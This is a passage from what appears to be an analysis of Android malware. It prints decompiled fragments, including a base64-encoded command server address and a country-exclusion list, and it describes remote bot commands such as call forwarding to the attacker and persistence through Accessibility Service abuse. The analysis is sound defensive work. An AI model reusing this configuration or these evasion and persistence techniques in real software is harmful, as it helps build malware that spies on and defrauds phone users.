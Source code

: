 ```cs
                cursor1.close();
            }
        }

        if(cursor0 != null) {
            cursor0.close();
        }

        return hashMap0;
    }
```

The malware connects to `http://ip-api.com` to retrive the IP, location of the victim. If the IP is located in `listCountryToIgnore`, the malware will ignore the victim's device and don't performe the malicious functions.

```cs
static {
        Intrinsics.checkNotNullExpressionValue("aHR0cDovL3NhdGFuZGVtYW50ZW5pbWllbnRvLmNvbQ==", "TDE(\"aHR0cDovL3NhdGFuZGV…W50ZW5pbWllbnRvLmNvbQ==\")");
        ConstKt.SERVER_ADDRESS = "aHR0cDovL3NhdGFuZGVtYW50ZW5pbWllbnRvLmNvbQ==";
        Intrinsics.checkNotNullExpressionValue("MQ==", "TDE(\"MQ==\")");
        ConstKt.ACCESS_VALUE = "MQ==";
        ConstKt.listCountryToIgnore = CollectionsKt.listOf(new String[]{"AZ", "AM", "BY", "KZ", "KG", "MD", "RU", "TJ", "UZ", "UA", "ID"});
    }

```

We come to the end. There are some other commands such as `delbot` to delete the bot from victim's device, `starthidenpush` to hide pushing notification, `delapp` to delete apps from the device, `call` to call action from the device, `callforward` to forward a phone call to the attacker and more commands found in this malware.


# Dynamic 

After installing the malicious APK and open the APK, the malware will keep asking you for granting the `Accessibility Service` to maintain presistance. After granting, the malware will be able to get the permission by itself as if he makes himself home. 


<p align="center">